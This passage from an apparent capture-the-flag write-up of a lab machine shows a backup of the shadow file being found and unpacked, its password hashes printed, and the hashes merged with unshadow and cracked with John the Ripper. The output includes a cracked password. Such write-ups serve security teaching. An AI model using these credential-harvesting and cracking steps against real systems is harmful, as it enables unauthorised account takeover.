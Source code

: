 It takes a long time to run, but eventually we find something interesting from the output:

```text
[+] Backup files
-rw-r--r-- 1 root root 485 Jan 16 13:44 /var/backups/shadow-backup-alt.gz
```

What is this then?

## John The Ripper

Let's check it out:

```text
web@vulnnet-dotjar:/dev/shm$ file /var/backups/shadow-backup-alt.gz
/var/backups/shadow-backup-alt.gz: gzip compressed data, was "shadow", last modified: Sat Jan 16 12:44:11 2021, from Unix

web@vulnnet-dotjar:/dev/shm$ cp /var/backups/shadow-backup-alt.gz .
web@vulnnet-dotjar:/dev/shm$ gunzip shadow-backup-alt.gz 
web@vulnnet-dotjar:/dev/shm$ file shadow-backup-alt 
shadow-backup-alt: ASCII text

web@vulnnet-dotjar:/dev/shm$ cat shadow-backup-alt 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/UgQZg.:18643:0:99999:7:::
<SNIP
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:18643:0:99999:7:::
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:18643:0:99999:7:::
```

We have a copy of the shadow file containing the hashes of the users passwords. We can use unshadow to combine it with the /etc/passwd file:

```text
──(root💀kali)-[~/thm/dotjar]
└─# unshadow 
Usage: unshadow PASSWORD-FILE SHADOW-FILE

┌──(root💀kali)-[~/thm/dotjar]
└─# unshadow passwd.txt shadow.txt 
root:$6$FphZT5C5$cH1.ZcqBlBpjzn2k.w8uJ8sDgZw6Bj1NIhSL63pDLdZ9i3k41ofdrs2kfOBW7cxdlMexHZKxtUwfmzX/
<SNIP>
jdk-admin:$6$PQQxGZw5$fSSXp2EcFX0RNNOcu6uakkFjKDDWGw1H35uvQzaH44.I/5cwM0KsRpwIp8OcsOeQcmXJeJAk7SnwY6wV8A0z/1:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:$6$hmf.N2Bt$FoZq69tjRMp0CIjaVgjpCiw496PbRAxLt32KOdLOxMV3N3uMSV0cSr1W2gyU4wqG/dyE6jdwLuv8APdqT8f94/:1001:1001:,,,:/home/web:/bin/bash
```

We can save these hashes to a file then use JohnTheRipper to try and crack them:

```text
┌──(root💀kali)-[~/thm/dotjar]
└─# john hashes.txt --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
794613852        (jdk-admin)
1g 0:00:00:00 DONE (2021-04-29 21:51) 9.090g/s 2327p/s 2327c/s 2327C/s i<3ruby..diana
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
